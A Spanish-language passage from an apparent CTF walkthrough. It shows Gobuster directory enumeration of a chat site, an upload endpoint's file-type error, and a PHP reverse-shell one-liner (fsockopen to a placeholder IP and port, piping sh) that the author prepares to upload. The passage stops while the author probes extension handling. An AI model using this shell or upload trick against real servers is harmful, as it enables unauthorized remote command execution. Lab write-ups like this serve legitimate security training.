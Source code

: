 Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://chat.chatme.dl/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] Exclude Length:          1891
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/LICENSE              (Status: 200) [Size: 35147]
/chat.php             (Status: 200) [Size: 2]
/css                  (Status: 403) [Size: 162]
/index2.php           (Status: 200) [Size: 5769]
/js                   (Status: 403) [Size: 162]
/upload.php           (Status: 200) [Size: 147]
/upload2.php          (Status: 200) [Size: 64]
/uploads              (Status: 403) [Size: 162]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos que hay una carpeta interesante llamada `/uploads`, pero si vamos a la direccion de `/upload.php` veremos el siguiente mensaje:

```
{"status":"error","message":"Sorry, only JPG, JPEG, PNG & GIF files are allowed."}{"status":"error","message":"Sorry, your file was not uploaded."}
```

Nos da una pista de las extensiones que podemos cargar, por lo que probaremos a subir el siguiente archivo.

```shell
nano shell.php

#Dentro del nano
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Si lo intentamos subir, no nos da ningun mensaje de error, pero si probamos algunas de esas extensiones permitidas con nuestro archivo que subimos, veremos que se cambia automaticamente de extension.
